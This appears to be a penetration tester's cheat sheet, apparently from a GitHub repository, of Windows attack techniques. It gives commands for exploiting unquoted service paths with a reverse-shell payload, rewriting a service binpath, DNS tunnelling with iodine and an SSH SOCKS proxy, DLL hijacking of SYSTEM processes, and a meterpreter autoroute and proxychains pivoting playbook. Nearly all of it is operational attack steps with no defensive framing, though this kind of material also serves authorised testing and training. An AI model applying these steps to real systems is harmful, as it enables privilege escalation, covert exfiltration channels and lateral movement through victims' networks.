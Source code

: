 
	Unquoted Paths: 
		
		wmic service get name,pathname,displayname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

		if found, go through directories and list permissions with icacls on each dir.
		Insert payload(and set to windows/shell_reverse_tcp) and BAM.

		# sc qc "vulnsvc" -> Query service config
		# try sc stop/start
		# shutdown /r /t 0 -> Restart endpoint to restart services aggressively

		# sc config <service name> binpath="C:\.........\<payload>.exe"

	DNS Tunneling:

		iodine -P '<PASS>' ns1.site.com -T CNAME -r -f 

		To SSH Socks proxy:

			ssh <user>@<nameserver IP> -D<LHOST-DNS CONNECTION>:<PORT> -N -C

	DLL Hikjacking:

		procexp to find process run by NT AUTHORITY\SYSTEM
		procmon to find dlls run by the process found in last step
		-> check if there's a "NAME NOT FOUND" .dll file -> make a fake dll with the same name that contains a payload.
		 

Pivoting ::
	
	Pivoting Playbook:

		If the victim's machine has got 2 NICs ->
			Use meterpreter's autoroute post module
			Then ARP scan to find hosts
			Then exploit a machine on the other network
			using socks4 to set a proxy & proxychains to use it
		If the new machine has got 2 NICs ->
			Autoroute again on the last pivot
			Then exploit the new victim
			using socks4 to set a new proxy & proxychains to use it

	use post/windows/manage/autoroute
	set SESSION <SESSION>
	set SUBNET <ROUTE.0>
	run
